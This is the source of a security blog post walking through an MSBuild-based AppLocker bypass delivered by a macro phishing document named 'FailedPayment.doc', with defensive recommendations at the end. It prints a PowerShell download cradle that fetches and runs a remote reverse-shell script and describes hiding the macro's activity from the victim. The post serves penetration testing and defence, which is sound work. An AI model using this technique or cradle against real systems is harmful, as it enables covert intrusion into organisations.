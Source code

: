 ```yaml
---
layout: post
title: MSBuild AppLocker Bypass Phishing Payload
published: true
---
```

![msbuild]({{ site.url }}/images/msbuild-csproj.png){: .center-image }


### With regular external vulnerability scans and (hopefully) pentration tests being undertaken, the perimeter is typically not the easy route into an organisation.

People click, and so simulated phishing campaigns and user awareness training are extremely important. However, there can never be complete assurance against credential divulgence or execution of malicious code via crafted (or not so crafted) phishing attacks, and so it is critical that organisations implement a multi-layered "defence in depth" strategy. Application Whitelisting is an important component of such a strategy, and is an effective means of ensuring that only approved applications can run.

AppLocker is a commonly used whitelisting technology and is built into Windows. Commonly, the default AppLocker rules (listed below) are applied.

![rules]({{ site.url }}/images/applocker-default-rules.png){: .center-image }

Since Powershell has gained recognition for being the attacker's language of choice, organisations are increasingly blocking it. However, blocking powershell.exe alone is not sufficient as there are many methods by which PowerShell can be instantiated to send a reverse shell reaching out of the organisation to an attacker.

The post will document one such method, with (as Casey Smith puts it) the "misplaced trust binary" MSBuild.exe. In this scenario, the company has enabled AppLocker with Default Rules and has also blocked powershell.exe.

![rules]({{ site.url }}/images/applocker-rules.png){: .center-image }

However, assuming that MSBuild.exe is allowed, we can have it execute a ".csproj" (Visual Studio .NET C# Project file) and instantiate a Powershell runspace using the System.Management.Automation.dll assembly. The powashell.csproj file below by Casey Smith ([@SubTee](https://twitter.com/subtee)) builds upon Jared Atkinson's ([@jaredcatkinson](https://twitter.com/jaredcatkinson)) and Justin Warner's ([@sixdub](https://twitter.com/sixdub)) work.

<script src="https://gist.github.com/egre55/7a6b6018c9c5ae88c63bdb23879df4d0.js"></script>

This executes the second stage of our payload via a PowerShell 3.0+ download cradle:

`pipeline.Commands.AddScript("IEX (iwr 'http://10.10.10.10/shell.ps1')");`

shell.ps1:

<script src="https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3.js"></script>

Good. Now we need a means of delivering the project file and executing MSBuild. The macro below will do just this.

<script src="https://gist.github.com/egre55/563159175f8d6c1d31d7f3af77357549.js"></script>

The `WindowType` parameter of the Shell function has been set to `vbHide` in order to avoid calling attention to our activities. Now, in order to stand a chance of the macro being executed, we need to dress the document appropriately.

John Lambert ([@JohnLaTwC](https://twitter.com/johnlatwc)) regularly shares interesting phishing lures and payloads, if you need inspiration for your simulated phishing campaigns. The "Document created in newer/older Office version" lure is one I find especially convincing. John has also put together [this](https://t.co/OwH28ltngy) compendium of macro based lures, which is great for educating users about the different techniques attackers use.

Our FailedPayment.doc lure:

![lure]({{ site.url }}/images/phishing-lure.png){: .center-image }


Now that the "malicious" document has been created we can test it out.

Once the user opens the document and enables macros, our powashell.csproj is downloaded for MSBuild to execute, which in turn downloads and executes the Powershell reverse shell one-liner. All completely invisible to the user.


![rules]({{ site.url }}/images/shell.png){: .center-image }


We can see that this payload is also an effective means of bypassing PowerShell Contrained Language mode. This was not a particularly stealthy attack as the .csproj is written to disk, and no attempt was made to obfuscate any part of the payload.

Hopefully, this example highlights the danger of "misplaced trust" binaries such as MSBuild. organisations should block their use unless explicitely required for certain users (e.g. developers). Organisations should also consider blocking macros for users who don't need this functionality, and consider implementing a custom whitelisting policy, mindful of the permissiveness of Default Rules. Oddvar Moe ([@Oddvarmoe](https://twitter.com/oddvarmoe)) maintains an excellent [collection](https://github.com/api0cradle/UltimateAppLockerByPassList) of AppLocker bypass techniques, which is a good list of the "misplaced trust" binaries that IT departments should consider blocking. In addition to powershell.exe, organisations should also consider blocking the following PowerShell binaries and assemblies.

<script src="https://gist.github.com/egre55/61b6cd2b23b605e6a017e81e5cb97f3e.js"></script>

Yet, even after blocking the above, there are multiple methods an attacker could use to instantiate a Powershell runspace. For example, an attacker could download a custom binary to one of the writable and executable folders within Windows that is whitelisted by AppLocker Default Rules. On my computer, these are:

<script src="https://gist.github.com/egre55/47186f7a22de177af4785e80fc2dcb41.js"></script>

This attacker/defender back and forth continues ad infinitum. Therefore it is important to organisations to formalise an ongoing cycle of testing, remediation and review, in order to achieve stronger system security. Ultimately, an "assume breach" mentality is paramount, but we have to make it as hard as possible for an attacker to gain that initial foothold.
